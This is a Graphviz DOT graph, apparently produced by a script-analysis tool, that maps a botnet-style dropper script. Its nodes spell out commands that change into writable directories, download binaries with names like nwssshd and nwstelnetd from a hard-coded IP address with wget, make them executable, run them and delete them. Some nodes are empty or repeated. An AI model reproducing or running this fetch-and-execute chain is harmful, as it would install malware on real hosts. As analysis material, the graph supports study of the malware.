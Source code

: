 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://94.177.190.229/nwsntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x nwsntpd "];
12 -> 14 [label=";,"];
14 [label="./nwsntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf nwsntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://94.177.190.229/nwssshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x nwssshd "];
30 -> 32 [label=";,"];
32 [label="./nwssshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf nwssshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://94.177.190.229/nwsopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x nwsopenssh "];
48 -> 50 [label=";,"];
50 [label="./nwsopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf nwsopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://94.177.190.229/nwsbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x nwsbash "];
66 -> 68 [label=";,"];
68 [label="./nwsbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf nwsbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://94.177.190.229/nwstftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x nwstftp "];
84 -> 86 [label=";,"];
86 [label="./nwstftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf nwstftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://94.177.190.229/nwswget "];
100 -> 102 [label=";,"];
102 [label="chmod +x nwswget "];
102 -> 104 [label=";,"];
104 [label="./nwswget "];
104 -> 106 [label=";,"];
106 [label="rm -rf nwswget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://94.177.190.229/nwscron "];
118 -> 120 [label=";,"];
120 [label="chmod +x nwscron "];
120 -> 122 [label=";,"];
122 [label="./nwscron "];
122 -> 124 [label=";,"];
124 [label="rm -rf nwscron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://94.177.190.229/nwsftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x nwsftp "];
138 -> 140 [label=";,"];
140 [label="./nwsftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf nwsftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://94.177.190.229/nwspftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x nwspftp "];
156 -> 158 [label=";,"];
158 [label="./nwspftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf nwspftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://94.177.190.229/nwssh "];
172 -> 174 [label=";,"];
174 [label="chmod +x nwssh "];
174 -> 176 [label=";,"];
176 [label="./nwssh "];
176 -> 178 [label=";,"];
178 [label="rm -rf nwssh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://94.177.190.229/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://94.177.190.229/nwsapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x nwsapache2 "];
210 -> 212 [label=";,"];
212 [label="./nwsapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf nwsapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://94.177.190.229/nwstelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x nwstelnetd "];
228 -> 230 [label=";,"];
230 [label="./nwstelnetd "];
230 -> 231 [label=";,"];
}
